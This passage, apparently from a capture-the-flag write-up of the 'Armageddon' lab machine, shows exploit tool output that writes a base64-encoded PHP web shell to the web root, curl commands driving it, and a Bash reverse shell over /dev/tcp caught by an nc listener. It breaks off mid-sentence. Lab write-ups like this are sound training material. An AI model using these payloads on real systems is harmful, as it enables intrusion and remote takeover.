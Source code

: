     --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo SNQOQAOF
    [+] Result : SNQOQAOF
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://10.10.10.233/shell.php)
    [!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
    [+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
    --------------------------------------------------------------------------------
    [i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
    armageddon.htb>> 
    

The prompt works like a shell:

    
    
    armageddon.htb>> id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
    

The last line before the prompt suggests it just has a webshell running. It
works too:

    
    
    oxdf@parrot$ curl 'http://10.10.10.233/shell.php' -d 'c=id'
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
    

### Shell

To get a shell, I triggered the same webshell with a Bash reverse shell:

    
    
    oxdf@parrot$ curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" 'http://10.10.10.233/shell.php'
    

`curl` hangs, but at my listening `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.233] 36008
    bash: no job control in this shell
    bash-4.2$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
    

I tried to do the shell upgrade, but it complains about being out of PTY
devices:
